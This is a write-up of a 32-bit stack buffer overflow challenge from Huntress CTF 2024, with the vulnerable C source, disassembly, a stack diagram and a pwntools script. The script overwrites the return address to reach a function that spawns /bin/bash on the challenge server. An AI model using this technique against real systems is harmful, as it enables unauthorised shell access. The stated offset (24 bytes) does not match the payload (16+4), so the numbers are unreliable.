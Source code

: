 ```yaml
---
title:          "Baby Buffer Overflow - 32bit (Huntress CTF 2024)"
pubDate:        2024-11-27
description:    CTF ComSec CyberSecurity Write-up Huntress Huntress-CTF-2024
hideListing:    true
---
```


> Author: @aenygma
> 
> Can you command this program to where it cannot go?
> To get the flag, you must somehow take control of its excecution.
> Is it even possible?

Looking at the provided `C` code:

```c 
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

We can tell that there is **no stack pointer protection**, and to help us, *position-independent executable* compiling is disable. This means function stack frames are placed back-to-back and addresses are as they would be. We want to hit the buffer in `vuln()` so that the `return` function returns back up to `target` instead of back to `main`. Decompiling the offered program in Binja, the `target` is mapped to location `080491f5  int32_t target()`, while the `vuln` is as follows:

```
08049236  int32_t vuln()

08049236  55                 push    ebp {__saved_ebp}
08049237  89e5               mov     ebp, esp {__saved_ebp}
08049239  83ec18             sub     esp, 0x18
0804923c  83ec0c             sub     esp, 0xc
0804923f  8d45e8             lea     eax, dword ptr [ebp-0x18 {var_1c}]
08049242  50                 push    eax {var_1c} {var_2c}
08049243  e8d8fdffff         call    gets
08049248  83c410             add     esp, 0x10
0804924b  b800000000         mov     eax, 0x0
08049250  c9                 leave    {__saved_ebp}
08049251  c3                 ret      {__return_addr}
```

We are interested in the location in the stack that stores the buffer, and the location that the `__saved_ebp` is pushed it. 
1. `push ebp {__saved_ebp}` stores the previous base stack pointer value to the stack, 
2. `mov ebp, esp {__saved_ebp}` sets the new stack base to the current stack pointer
3. `sub esp, 0x18` increases the stack by 0x18 bytes
4. `lea eax, dword ptr [ebp-0x18 {var_1c}]` calculates the effective address of *0x18 bytes behind the stack pointer*.

This is what it would look like:

```

    +----------+ \
    | ret addr | |
    +-        -+ |
    | ret addr | | 
    +-        -+ | portion we target
    | ret addr | |
    +-        -+ |
    | ret addr | |
    +----------+ / 
    | old ebp  |
    +-        -+
    | old ebp  |
    +-        -+
    | old ebp  |
    +-        -+
    | old ebp  |
    +----------+ <- ebp
    |          |
    +----------+ <- esp-0x18
      .......
    +----------+
    |          | 
    +----------+ <- esp

```

Starting from the `esp` below, data will get pushed in up until the last *blank* byte at `esp-0x18`. So by entering 24 random characters, we hit the and of the stack. The next four bytes are the `old esp` position, and above that is the precious `{__return_addr}`. We will need to key in `0x080491f5`, but not with ascii characters of course. So we use `pwntools` in python to help us.

```py
from pwn import *

target_function_address = 0x080491f5  # Address of target function

# Construct the payload
payload = b'A' * 16 + b'B' * 4 + p32(target_function_address)

# Connect to the remote service
p = remote("challenge.ctf.games", PORT)


# Send the payload
p.sendline(payload)


# Drop into interactive mode to access the shell
p.interactive()
```

We get dropped into the shell after running this, and we are free to roam the world (and print the file containing the flag).

